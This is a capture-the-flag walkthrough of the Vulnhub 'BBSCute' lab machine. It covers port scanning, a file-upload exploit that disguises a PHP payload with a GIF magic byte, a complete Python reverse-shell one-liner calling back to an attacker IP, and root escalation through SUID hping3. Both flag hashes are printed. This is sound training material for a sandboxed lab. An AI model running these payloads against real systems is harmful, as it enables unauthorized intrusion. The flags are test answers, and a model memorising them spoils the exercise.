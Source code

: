 # BBSCute

Lets check the IP address of victim machine first ➡️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled.png)

```bash
IP : 10.0.2.48
```

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/BBSCute]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.48
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 19:53 IST
Nmap scan report for 10.0.2.48
Host is up (0.00056s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04d06ec4ba4a315a6fb3eeb81bed5ab7 (RSA)
|   256 24b3df010bcac2ab2ee949b058086afa (ECDSA)
|_  256 6ac4356a7a1e7e51855b815c7c744984 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: IMPLEMENTATION(Courier Mail Server) UTF8(USER) LOGIN-DELAY(10) STLS TOP UIDL PIPELINING USER
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
|_ssl-date: TLS randomness does not represent time
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: UTF8(USER) LOGIN-DELAY(10) IMPLEMENTATION(Courier Mail Server) TOP UIDL PIPELINING USER
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
MAC Address: 08:00:27:BF:70:A5 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%201.png)

### Directory Traversal ➡️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%202.png)

Now lets dig into the index.php file →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%203.png)

Lets Register first →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%204.png)

Now I can’t find captcha this was because of my IP address configuration so manually I need to call `captcha.php` file for captcha ⬇️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%205.png)

with that lets login Now with my credentials ⤵️

```bash
Username : shiva 
Password : password
```

After login I got this interface ➡️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%206.png)

After looking for an exploit I got this [exploit](https://www.exploit-db.com/exploits/48800) and I followed the path →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%207.png)

Here in this exploit I have to create a payload file like this ⤵️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%208.png)

Now with gif magic byte the file is now image file →

Now lets upload it through our dashboard ⬇️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%209.png)

Now when I saved it , It got successfully uploaded so now I have to load the file for that lets follow through the exploit again —>

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2010.png)

Through this my URL was → [http://10.0.2.48/uploads/avatar_shiva_payload.php?cmd=whoami](http://10.0.2.48/uploads/avatar_shiva_payload.php?cmd=whoami)

In response I got ⬇️

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2011.png)

Now its time for reverse shell python payload input →

```bash
Python Payload >
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2012.png)

Now when I got the shell lets check for SUIDs and GUIDs →

![Untitled](/Vulnhub-Files/img/BBSCute/Untitled%2013.png)

Also I found `user.txt` file —>

```bash
www-data@cute:/home/fox$ cat user.txt
cat user.txt
dcb8189a0eaf7a690a67785a7299be60
www-data@cute:/home/fox$
```

Now lets exploit our hping3 ⤵️

```bash
www-data@cute:/$ /usr/sbin/hping3    
/usr/sbin/hping3
hping3> /bin/sh -p
/bin/sh -p
# whoami
whoami
root
#
# ls -al
ls -al
total 32
drwx------  3 root root 4096 Sep 23  2020 .
drwxr-xr-x 18 root root 4096 Sep 17  2020 ..
-rw-------  1 root root   70 Sep 23  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-------  1 root root   36 Sep 17  2020 .lesshst
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  2 root root 4096 Sep 17  2020 localweb
-rw-------  1 root root   33 Sep 18  2020 root.txt
# cat root.txt
cat root.txt
0b18032c2d06d9e738ede9bc24795ff2
#
```